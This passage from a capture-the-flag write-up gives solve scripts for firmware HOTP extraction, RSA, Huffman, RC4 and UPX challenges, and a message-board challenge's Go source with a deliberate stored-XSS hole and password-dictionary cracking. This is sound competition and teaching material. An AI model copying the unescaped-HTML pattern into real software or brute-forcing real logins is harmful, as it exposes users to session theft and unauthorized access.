        uVar8 = eeprom_read_byte();
        pbVar1 = pbVar11 + 1;
        *pbVar11 = bVar9;
        pbVar11 = pbVar1;
        bVar9 = (char)uVar8 + 1;
    } while (bVar9 != 0x20 ||
             (char)((char)((ushort)uVar8 >> 8) - (((char)uVar8 != -1) + -1)) !=
             (char)(cVar10 + (bVar9 < 0x20)));
    bVar9 = puVar16[1];
    bVar12 = puVar16[2];
    bVar13 = puVar16[3];
    bVar4 = bVar12 < 0xba || (byte)(bVar12 + 0x46) < (bVar9 < 0xbe);
    if (((bVar9 == 0xbe && bVar12 == (byte)((bVar9 < 0xbe) + 0xbaU)) && bVar13 == (byte)(bVar4 - 2U))
        && puVar16[4] == (char)((bVar13 < 0xfe || (byte)(bVar13 + 2) < bVar4) + -0x36)) {
        cVar10 = '\x1c';
        puVar14 = &state;
        puVar2 = puVar16 + 5;
        do {
            puVar17 = puVar2 + 1;
            puVar15 = puVar14 + 1;
            *puVar14 = *puVar2;
            cVar10 = cVar10 + -1;
            puVar14 = puVar15;
            puVar2 = puVar17;
        } while (cVar10 != '\0');
    }
    SREG = (undefined *)0xffdf < puVar16 | (puVar16 == (undefined *)0xffe0) << 1 |
        ((short)(puVar16 + 0x20) < 0) << 2 | (SCARRY2((short)(puVar16 + 0x20),0x20) == true) << 3 |
        ((byte)((short)(puVar16 + 0x20) < 0 ^ SCARRY2((short)(puVar16 + 0x20),0x20)) == 1) << 4 |
        (cVar5 == '\x01') << 5 | (cVar6 == '\x01') << 6 | (cVar7 == '\x01') << 7;
    sVar3 = CONCAT11((char)((ushort)(puVar16 + 0x20) >> 8),(char)(puVar16 + 0x20));
    return CONCAT11(*(undefined *)(sVar3 + 3),*(undefined *)(sVar3 + 4));
}

```

`EepromData::tryUnserialize` is pretty useful. After asking AI, I learned that it reads 32 bytes, checks the first 4, and extracts the last 28. So those last 28 bytes matter.

Next, `EepromData::serialize`.

```c
/* EepromData::serialize(OtpState const&) [clone .constprop.14] */

undefined2 EepromData::serialize(undefined2 param_1)

{
    ...omitted...
    cVar7 = '\0';
    *unaff_SP = in_R13;
    unaff_SP[-1] = (char)in_R15R14;
    unaff_SP[-2] = (char)((ushort)in_R15R14 >> 8);
    unaff_SP[-3] = (char)param_1;
    unaff_SP[-4] = (char)((ushort)param_1 >> 8);
    unaff_SP[-5] = (char)mem0x001c;
    unaff_SP[-6] = (char)((ushort)mem0x001c >> 8);
    puVar1 = unaff_SP + -7;
    puVar18 = unaff_SP + -0x27;
    cVar4 = in_Hflg == '\x01';
    cVar5 = in_Tflg == '\x01';
    cVar6 = in_Iflg == '\x01';
    SREG = puVar1 < &UNK_mem_0020 | (puVar1 == &UNK_mem_0020) << 1 |
        ((short)(unaff_SP + -0x27) < 0) << 2 | (SBORROW2((short)puVar1,0x20) == true) << 3 |
        ((byte)((short)(unaff_SP + -0x27) < 0 ^ SBORROW2((short)puVar1,0x20)) == 1) << 4 |
        cVar4 << 5 | cVar5 << 6 | cVar6 << 7;
    uVar13 = 0xba;
    uVar14 = 0xfe;
    uVar17 = 0xca;
    unaff_SP[-0x26] = 0xbe;
    puVar18[2] = uVar13;
    puVar18[3] = uVar14;
    puVar18[4] = uVar17;
    cVar11 = '\x1c';
    puVar15 = puVar18 + 5;
    puVar20 = &state;
    do {
        puVar19 = puVar20 + 1;
        puVar16 = puVar15 + 1;
        *puVar15 = *puVar20;
        cVar11 = cVar11 + -1;
        puVar15 = puVar16;
        puVar20 = puVar19;
    } while (cVar11 != '\0');
    bVar12 = 0;
    sVar3 = CONCAT11((char)((ushort)(unaff_SP + -0x27) >> 8),(char)puVar1 + -0x20);
    pbVar9 = puVar18 + 1;
    do {
        pbVar21 = pbVar9 + 1;
        bVar8 = *pbVar9;
        *(undefined2 *)(sVar3 + -1) = 0x847;
        sVar2 = sVar3 + -2;
        uVar10 = eeprom_read_byte();
        if (bVar8 != bVar12) {
            *(undefined2 *)(sVar3 + -3) = 0x84d;
            sVar2 = sVar3 + -4;
            uVar10 = eeprom_write_byte();
        }
        bVar12 = (char)uVar10 + 1;
        sVar3 = sVar2;
        pbVar9 = pbVar21;
    } while (bVar12 != 0x20 ||
             (char)((char)((ushort)uVar10 >> 8) - (((char)uVar10 != -1) + -1)) !=
             (char)(cVar7 + (bVar12 < 0x20)));
    SREG = (undefined *)0xffdf < puVar18 | (puVar18 == (undefined *)0xffe0) << 1 |
        ((short)(puVar18 + 0x20) < 0) << 2 | (SCARRY2((short)(puVar18 + 0x20),0x20) == true) << 3 |
        ((byte)((short)(puVar18 + 0x20) < 0 ^ SCARRY2((short)(puVar18 + 0x20),0x20)) == 1) << 4 |
        (cVar4 == '\x01') << 5 | (cVar5 == '\x01') << 6 | (cVar6 == '\x01') << 7;
    sVar3 = CONCAT11((char)((ushort)(puVar18 + 0x20) >> 8),(char)(puVar18 + 0x20));
    return CONCAT11(*(undefined *)(sVar3 + 3),*(undefined *)(sVar3 + 4));
}


```

We can see that these 28 bytes are split into 8 and 20. Given SHA-1's requirement for 20 bytes, it's not hard to conclude that the first 8 are `secret` and the last 20 are `counter`.



This lines up exactly with the useful bytes in the EEPROM.

`92 05 00 00 17 CD 92 3A 32 1C 31 D4 94 54 85 42 44 DE 86 CC 4A B6 DD F4 35 42 90 52`

`counter2`=`92 05 00 00 17 CD 92 3A`

`secret2` =`32 1C 31 D4 94 54 85 42 44 DE 86 CC 4A B6 DD F4 35 42 90 52`

This also gave me an idea: Here, `counter2` comes first, followed by `secret2`.

Back to the earlier data:

Group 1: `01 6B 69 4F 7E 03 54 F6 C6 6A B5 00 00 00 00 00 00`

Group 2: `00 01 00 00 00 93 7E CD 0D 00 00 00 00 00 00 00 00`

Group 3: `02 1A 04 02 1B 1C 6D 7D 45 58 02 00 00 00 00 00 00`

Group 4: `03 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00`

If we sort them by `00`, `01`, `02`, `03` and remove the unnecessary zeros, it looks like we can extract something.

`01 00 00 00 93 7E CD 0D` `6B 69 4F 7E 03 54 F6 C6 6A B5 1A 04 02 1B 1C 6D 7D 45 58 02`

The first is 8 bytes and the second is 20. Just right.

`secret1`=`6B 69 4F 7E 03 54 F6 C6 6A B5 1A 04 02 1B 1C 6D 7D 45 58 02`

`counter1`=`01 00 00 00 93 7E CD 0D`

Now we have all the data.

#### 3 Processing the Data and Writing the Script

The script needs `secret` as Base32-encoded data and `counter` in decimal, respectively.

So we need to process them a little.

I calculated these in advance. **I^2^C requires the most significant bits first, so here we convert the hexadecimal values from big-endian to little-endian, then to decimal.**

`counter1`=`01 00 00 00 93 7E CD 0D`=`0DCD7E9300000001`=`992224077072691201`

`counter2`=`92 05 00 00 17 CD 92 3A`=`3A92CD1700000592`=`4227023796868324242`

```python
import base64
import hmac
import hashlib
import struct

byte_sequence1 = bytes([0x6B, 0x69, 0x4F, 0x7E, 0x03, 0x54, 0xF6, 0xC6, 
                       0x6A, 0xB5, 0x1A, 0x04, 0x02, 0x1B, 0x1C, 0x6D, 
                       0x7D, 0x45, 0x58, 0x02])

byte_sequence2 = bytes([0x32, 0x1C, 0x31, 0xD4, 0x94, 0x54, 0x85, 0x42, 
                        0x44, 0xDE, 0x86, 0xCC, 0x4A, 0xB6, 0xDD, 0xF4, 
                        0x35, 0x42, 0x90, 0x52])

base32_secret1 = base64.b32encode(byte_sequence1).decode('utf-8')
base32_secret2 = base64.b32encode(byte_sequence2).decode('utf-8')

secret1 = base64.b32decode(base32_secret1.upper()) 
secret2 = base64.b32decode(base32_secret2.upper())

counter1 = 994590262544039937
counter2 = 4220661299467519378

# HOTP calculation function
def hotp(secret, counter):
    # Convert the counter to bytes (8 bytes, or 64 bits)
    counter_bytes = struct.pack(">Q", counter)  # Pack the counter in big-endian byte order

    # Calculate the hash using HMAC-SHA1
    hmac_hash = hmac.new(secret, counter_bytes, hashlib.sha1).digest()

    # Extract the number with dynamic truncation (the standard HOTP process)
    offset = hmac_hash[-1] & 0x0F  # Take the low four bits of the hash's last byte
    code = struct.unpack(">I", hmac_hash[offset:offset+4])[0] & 0x7FFFFFFF  # Extract and process 4 bytes
    return code % 1000000  # Return a 6-digit verification code

x1 = hotp(secret1, counter1)
x2 = hotp(secret1,counter1+9)
y1 = hotp(secret2, counter2+32)
y2 = hotp(secret2,counter2+64)

print(f"hgame{{{x1}_{x2}_{y1}_{y2}}}")

'''
hgame{283942_633153_431432_187457}
'''
```

> hgame{283942_633153_431432_187457}

## Crypto

### 1.sieve

> It takes two sieves with different mesh sizes to sift everything out.

```python
#sage
from Crypto.Util.number import bytes_to_long
from sympy import nextprime

FLAG = b'hgame{xxxxxxxxxxxxxxxxxxxxxx}'
m = bytes_to_long(FLAG)

def trick(k):
    if k > 1:
        mul = prod(range(1,k)) 
        if k - mul % k - 1 == 0:
            return euler_phi(k) + trick(k-1) + 1
        else:
            return euler_phi(k) + trick(k-1)
    else:
        return 1

e = 65537
p = q = nextprime(trick(e^2//6)<<128)
n = p * q
enc = pow(m,e,n)
print(f'{enc=}')
#enc=2449294097474714136530140099784592732766444481665278038069484466665506153967851063209402336025065476172617376546

```

I hear everyone's an expert AI trainer.

```python
from sage.all import *
from Crypto.Util.number import long_to_bytes
from sympy import nextprime  # Use sympy's nextprime

# Quickly calculate Σ_{i=1}^n euler_phi(i)
def totient_sum(n):
    cache = {}
    def F(n):
        if n in cache:
            return cache[n]
        # The initial sum is n(n+1)//2
        res = n*(n+1) // 2
        i = 2
        while i <= n:
            j = n // (n // i)
            # Subtract the whole interval [i, j], where n//i has the same value, at once
            res -= (j - i + 1) * F(n // i)
            i = j + 1
        cache[n] = res
        return res
    return F(n)

# trick(n) = totient_sum(n) + prime_pi(n)
def trick(n):
    # Sage's built-in prime_pi(n) counts primes
    return totient_sum(n) + prime_pi(n)

e = 65537
s = e**2 // 6
v = trick(s)

# p is fixed: Shift v left by 128 bits, then take the next prime
p = Integer(nextprime(v << 128))
# q equals p, so n = p^2
n = p * p

# RSA's φ(n) = p*(p-1) (because n = p^2)
phi_n = p * (p - 1)
d = inverse_mod(e, phi_n)

# Known ciphertext (from the encryption output)
enc = 2449294097474714136530140099784592732766444481665278038069484466665506153967851063209402336025065476172617376546

# Decryption: m_dec = enc^d mod n
m_dec = power_mod(enc, d, n)
FLAG = long_to_bytes(int(m_dec))
print(FLAG)

'''
b'hgame{sieve_is_n0t_that_HArd}'
'''
```

## Reverse

### 1.Compress dot new

> Sometimes reverse engineering doesn't need complicated tools: one person, a desk, a computer, a notepad, and a digital helper are enough.

```txt
def "into b" [] {let arg = $in;0..(( $arg|length ) - 1)|each {|i|$arg|bytes at $i..$i|into int}};def gss [] {match $in {{s:$s,w:$w} => [$s],{a:$a,b:$b,ss:$ss,w:$w} => $ss}};def gw [] {match $in {{s:$s,w:$w} => $w,{a:$a,b:$b,ss:$ss,w:$w} => $w}};def oi [v] {match $in {[] => [$v],[$h,..$t] => {if $v.w < $h.w {[$v,$h] ++ $t} else {[$h] ++ ($t|oi $v)}}}};def h [] {match $in {[] => [],[$n] => $n,[$f,$sn,..$r] => {$r|oi {a:$f,b:$sn,ss:(($f|gss) ++ ($sn|gss)),w:(($f|gw) + ($sn|gw))}|h}}};def gc [] {def t [nd, pth, cd] {match $nd {{s:$s,w:$_} => ($cd|append {s:$s,c:$pth}),{a:$a,b:$b,ss:$_,w:$_} => {t $b ($pth|append 1) (t $a ($pth|append 0) $cd)}}};t $in [] []|each {|e|{s:$e.s,cs:($e.c|each {|c|$c|into string}|str join)}}};def sk [] {match $in {null => null,{s:$s,w:$_} => {s:$s},{a:$a,b:$b,ss:$_,w:$_} => {a:($a|sk),b:($b|sk)}}};def bf [] {$in|into b|reduce -f (0..255|reduce -f [] {|i,a|$a|append 0}) {|b,a|$a|update $b (($a|get $b) + 1)}|enumerate|filter {|e|$e.item > 0}|each {|e|{s:$e.index,w:$e.item}}};def enc [cd] {$in|into b|each {|b|$cd|filter {|e|$e.s == $b}|first|get "cs"}|str join};def compress []: binary -> string {let t = $in|bf|h;[($t|sk|to json --raw), ($in|enc ($t|gc))]|str join "\n"}

# source compress.nu; open ./flag.txt --raw | into binary | compress | save enc.txt

```

[Nushell](https://www.nushell.sh/): My first time seeing this language. Fun.

```python
import json

def decode_huffman(encoded_data, tree):
    result = bytearray()
    current = tree
    
    for bit in encoded_data:
        # Choose the path according to 0/1
        current = current['a'] if bit == '0' else current['b']
        
        # If we reach a leaf node
        if 's' in current:
            result.append(current['s'])
            current = tree
            
    return result

def main():

    with open('enc.txt', 'r') as f:
        tree = json.loads(f.readline())  # The first line is the JSON tree
        encoded_data = f.readline().strip()  # The second line is the encoded data
    
    # Decode the data
    decoded = decode_huffman(encoded_data, tree)
    
    # Write the result
    with open('flag.txt', 'wb') as f:
        f.write(decoded)

if __name__ == '__main__':
    main()
    
```

Got flag.txt.

>hgame{Nu-Shell-scr1pts-ar3-1nt3r3st1ng-t0-wr1te-&-use!}

As for the following `Lorem ipsum dolor sit amet, consectetur adipiscing elit.
Nulla nec ligula neque. Etiam et viverra nunc, vel bibendum risus. Donec.`

I don't know what it is.


### 2.Turtle

> addr3s5 bought a little turtle at the bird-and-flower market today, but it's very shy. It keeps hiding in its shell and won't even eat when offered food. addr3s5 is frustrated. Can you help him?

A turtle, huh. What does a turtle have? A shell, of course. Yep, folks, it sure does.

So we need to unpack it—take off the shell.

[Notes on Manual UPX Unpacking](https://blog.csdn.net/sirrior/article/details/134597589 )

This is the blog post I used as a reference.

Threw the unpacked exe into IDA to take a look.



Hit `ctrl+X` to open the cross-references.

```c
__int64 sub_401876()
{
    _BYTE v1[256]; // [rsp+20h] [rbp-60h] BYREF
    _BYTE v2[48]; // [rsp+120h] [rbp+A0h] BYREF
    char v3[46]; // [rsp+150h] [rbp+D0h] BYREF
    _BYTE v4[5]; // [rsp+17Eh] [rbp+FEh] BYREF
    _BYTE v5[2]; // [rsp+183h] [rbp+103h] BYREF
    char v6[8]; // [rsp+185h] [rbp+105h] BYREF
    _BYTE v7[8]; // [rsp+18Dh] [rbp+10Dh] BYREF
    char v8[7]; // [rsp+195h] [rbp+115h] BYREF
    unsigned int v9; // [rsp+19Ch] [rbp+11Ch]
    unsigned int v10; // [rsp+1A0h] [rbp+120h]
    int v11; // [rsp+1A4h] [rbp+124h]
    int v12; // [rsp+1A8h] [rbp+128h]
    unsigned int v13; // [rsp+1ACh] [rbp+12Ch]

    sub_401C20();
    strcpy(v8, "yekyek");
    v4[0] = -51;
    v4[1] = -113;
    v4[2] = 37;
    v4[3] = 61;
    v4[4] = -31;
    qmemcpy(v5, "QJ", sizeof(v5));
    v2[0] = -8;
    v2[1] = -43;
    v2[2] = 98;
    v2[3] = -49;
    v2[4] = 67;
    v2[5] = -70;
    v2[6] = -62;
    v2[7] = 35;
    v2[8] = 21;
    v2[9] = 74;
    v2[10] = 81;
    v2[11] = 16;
    v2[12] = 39;
    v2[13] = 16;
    v2[14] = -79;
    v2[15] = -49;
    v2[16] = -60;
    v2[17] = 9;
    v2[18] = -2;
    v2[19] = -29;
    v2[20] = -97;
    v2[21] = 73;
    v2[22] = -121;
    v2[23] = -22;
    v2[24] = 89;
    v2[25] = -62;
    v2[26] = 7;
    v2[27] = 59;
    v2[28] = -87;
    v2[29] = 17;
    v2[30] = -63;
    v2[31] = -68;
    v2[32] = -3;
    v2[33] = 75;
    v2[34] = 87;
    v2[35] = -60;
    v2[36] = 126;
    v2[37] = -48;
    v2[38] = -86;
    v2[39] = 10;
    v13 = 6;
    v12 = 7;
    v11 = 40;
    sub_403068(aPlzInputTheKey);
    sub_403058("%s", v6);
    sub_403048(v7, v6);
    v10 = 7;
    sub_401550(v8, v13, v1);
    sub_40163E(v6, v10, v1);
    if ( (unsigned int)sub_403078(v6, v4, v12) )
    {
        sub_403060(aKeyIsWrong);
    }
    else
    {
        sub_403068(aPlzInputTheFla);
        sub_403058("%s", v3);
        v9 = 40;
        sub_401550(v7, v10, v1);
        sub_40175A(v3, v9, v1);
        if ( (unsigned int)sub_403078(v3, v2, v11) )
            sub_403060(aWrongPlzTryAga);
        else
            sub_403060(aCongratulate);
    }
    return 0LL;
}
```

exp:

```python
def rc4(key, length):
    """
    RC4 keystream generator.
    key: list of integers (each 0-255)
    length: number of keystream bytes to generate.
    """
    S = list(range(256))
    j = 0
    key_len = len(key)
    # Key Scheduling Algorithm (KSA)
    for i in range(256):
        j = (j + S[i] + key[i % key_len]) % 256
        S[i], S[j] = S[j], S[i]
    i = 0
    j = 0
    stream = []
    # Pseudo-Random Generation Algorithm (PRGA)
    for _ in range(length):
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        stream.append(S[(S[i] + S[j]) % 256])
    return stream

def main():
    # Step 1: Compute RC4 keystream for the key "yekyek" (6 bytes) to process the user key.
    fixed_key = b"yekyek"  # 6 bytes from v11 ("yekyek")
    keystream = rc4(list(fixed_key), 7)
    
    # Step 2: The expected result (combining v7 and v8) is:
    # v7: [-51, -113, 37, 61, -31] -> in unsigned: 205, 143, 37, 61, 225
    # v8: "QJ" -> ascii: 81, 74
    expected_processed = [205, 143, 37, 61, 225, 81, 74]
    
    # Step 3: Since sub_40163E is the RC4 PRGA XORing bytes,
    # original user key can be computed as:
    #   original_key = expected_processed XOR keystream
    user_key = bytes([expected_processed[i] ^ keystream[i] for i in range(7)])
    try:
        user_key_str = user_key.decode('utf-8')
    except UnicodeDecodeError:
        user_key_str = user_key.hex()
    print("Recovered user key (input key):", user_key_str)
    
    # Step 4: For flag decryption, the key is the copy of user key stored in v10.
    # (We assume sub_403048 is a memcpy so that v10 == user_key.)
    key_for_flag = list(user_key)  # List of integers; expected length 7.
    
    # The encrypted flag (40 bytes) are stored in v5:
    encrypted_flag = [
        248, 213, 98, 207, 67, 186, 194, 35, 21, 74,
        81, 16, 39, 16, 177, 207, 196, 9, 254, 227,
        159, 73, 135, 234, 89, 194, 7, 59, 169, 17,
        193, 188, 253, 75, 87, 196, 126, 208, 170, 10
    ]
    
    # Before decrypting the flag, the program reinitializes the RC4 state using the key from v10.
    # We generate the RC4 keystream for a length equal to the flag length.
    keystream_flag = rc4(key_for_flag, len(encrypted_flag))
    
    # The flag encryption subtracts the keystream mod 256 so we reverse it by adding.
    flag_bytes = bytes([(encrypted_flag[i] + keystream_flag[i]) % 256 for i in range(len(encrypted_flag))])
    
    try:
        flag_str = flag_bytes.decode('utf-8')
    except UnicodeDecodeError:
        flag_str = flag_bytes.hex()
    
    print("Decrypted flag:", flag_str)

if __name__ == '__main__':
    main()
    
'''
Recovered user key (input key): ecg4ab6
Decrypted flag: hgame{Y0u'r3_re4l1y_g3t_0Ut_of_th3_upX!}
'''
```

> hgame{Y0u'r3_re4l1y_g3t_0Ut_of_th3_upX!}

## Web

### 1.Level 24 Pacman

> Unsafe | Under exploration | Entity count known
>
> > You arrive somewhere that feels familiar, but you can't remember what it is. Your head is splitting. You want to find an exit, yet all you see ahead are endless points of light and four little figures resembling Kessoku Band, slowly approaching you.
> >
> > | Your goal is to collect ten thousand coins and leave before they catch you. |
> > | ------------------------------------------------------------ |
> > | 1. Move with WASD or the arrow keys. |
> > | 2. Press SPACE to pause the game. |
> > | 3. You have five chances. Until then, run for your life! |
>
> Good luck, friend.

In index.js:

`here is your gift:aGFlcGFpZW1rc3ByZXRnbXtydGNfYWVfZWZjfQ==`

->`haepaiemkspretgm{rtc_ae_efc}`(base64)

->`hgame{pratice_makes_perfect}` (fence 2)

Then you can get:



`here is your gift:aGFldTRlcGNhXzR0cmdte19yX2Ftbm1zZX0=`

->`haeu4epca_4trgm{_r_amnmse}`

->`hgame{u_4re_pacman_m4ster}`

> hgame{u_4re_pacman_m4ster}

### 2.Level 69 MysteryMessageBoard

> In a dim space, a mysterious message board hangs on a virtual wall, as though offering a glimpse of light from the outside world. Each message can bring different consequences, but all are examined by a mysterious administrator who decides who may pass through the door and who will remain trapped forever in this virtual cage.
>
> Some invisible force controls the board. Messages seem to trigger a ritual, and each character entered is filled with unknown energy. Every sentence may become the focus of scrutiny or even provoke a strange transformation, as if the power of information could change reality and carry its author across the boundary between the virtual and the real.
>
> The secrets of this message board are waiting to be uncovered.
>
> (The port inside the container is 8888.)

The challenge provided source code.

```go
package main

import (
    "context"
    "fmt"
    "github.com/chromedp/chromedp"
    "github.com/gin-gonic/gin"
    "github.com/gorilla/sessions"
    "log"
    "net/http"
    "sync"
    "time"
)

var (
    store = sessions.NewCookieStore([]byte("fake_key"))
    users = map[string]string{
        "shallot": "fake_password",
        "admin":   "fake_password"}
    comments []string
    flag     = "FLAG{this_is_a_fake_flag}"
    lock     sync.Mutex
)

func loginHandler(c *gin.Context) {
    username := c.PostForm("username")
    password := c.PostForm("password")
    if storedPassword, ok := users[username]; ok && storedPassword == password {
        session, _ := store.Get(c.Request, "session")
        session.Values["username"] = username
        session.Options = &sessions.Options{
            Path:     "/",
            MaxAge:   3600,
            HttpOnly: false,
            Secure:   false,
        }
        session.Save(c.Request, c.Writer)
        c.String(http.StatusOK, "success")
        return
    }
    log.Printf("Login failed for user: %s\n", username)
    c.String(http.StatusUnauthorized, "error")
}
func logoutHandler(c *gin.Context) {
    session, _ := store.Get(c.Request, "session")
    delete(session.Values, "username")
    session.Save(c.Request, c.Writer)
    c.Redirect(http.StatusFound, "/login")
}
func indexHandler(c *gin.Context) {
    session, _ := store.Get(c.Request, "session")
    username, ok := session.Values["username"].(string)
    if !ok {
        log.Println("User not logged in, redirecting to login")
        c.Redirect(http.StatusFound, "/login")
        return
    }
    if c.Request.Method == http.MethodPost {
        comment := c.PostForm("comment")
        log.Printf("New comment submitted: %s\n", comment)
        comments = append(comments, comment)
    }
    htmlContent := fmt.Sprintf(`<html>
        <body>
            <h1>留言板</h1>
            <p>欢迎，%s，试着写点有意思的东西吧，admin才不会来看你！自恋的笨蛋！</p>
            <form method="post">
                <textarea name="comment" required></textarea><br>
                <input type="submit" value="提交评论">
            </form>
            <h3>留言:</h3>
            <ul>`, username)
    for _, comment := range comments {
        htmlContent += "<li>" + comment + "</li>"
    }
    htmlContent += `</ul>
            <p><a href="/logout">退出</a></p>
        </body>
    </html>`
    c.Data(http.StatusOK, "text/html; charset=utf-8", []byte(htmlContent))
}
func adminHandler(c *gin.Context) {
    htmlContent := `<html><body>
        <p>好吧好吧你都这么求我了~admin只好勉为其难的来看看你写了什么~才不是人家想看呢！</p>
        </body></html>`
    c.Data(http.StatusOK, "text/html; charset=utf-8", []byte(htmlContent))
    // Use a headless browser to log in as admin and visit the / route as admin
    go func() {
        lock.Lock()
        defer lock.Unlock()
        ctx, cancel := chromedp.NewContext(context.Background())
        defer cancel()
        ctx, _ = context.WithTimeout(ctx, 20*time.Second)
        if err := chromedp.Run(ctx, myTasks()); err != nil {
            log.Println("Chromedp error:", err)
            return
        }
    }()
}

// Headless browser actions
func myTasks() chromedp.Tasks {
    return chromedp.Tasks{
        chromedp.Navigate("/login"),
        chromedp.WaitVisible(`input[name="username"]`),
        chromedp.SendKeys(`input[name="username"]`, "admin"),
        chromedp.SendKeys(`input[name="password"]`, "fake_password"),
        chromedp.Click(`input[type="submit"]`),
        chromedp.Navigate("/"),
        chromedp.Sleep(5 * time.Second),
    }
}

func flagHandler(c *gin.Context) {
    log.Println("Handling flag request")
    session, err := store.Get(c.Request, "session")
    if err != nil {
        c.String(http.StatusInternalServerError, "无法获取会话")
        return
    }
    username, ok := session.Values["username"].(string)
    if !ok || username != "admin" {
        c.String(http.StatusForbidden, "只有admin才可以访问哦")
        return
    }
    log.Println("Admin accessed the flag")
    c.String(http.StatusOK, flag)
}
func main() {
    r := gin.Default()
    r.GET("/login", loginHandler)
    r.POST("/login", loginHandler)
    r.GET("/logout", logoutHandler)
    r.GET("/", indexHandler)
    r.GET("/admin", adminHandler)
    r.GET("/flag", flagHandler)
    log.Println("Server started at :8888")
    log.Fatal(r.Run(":8888"))
}

```

Accessing /flag requires admin privileges.

First, tried logging in. [wwl012345/PasswordDic: Common Password Dictionaries for Penetration Testing (Continuously Updated)](https://github.com/wwl012345/PasswordDic)

 Used a dictionary from this repository to crack the password.



Noticed that `888888` had a different response time.

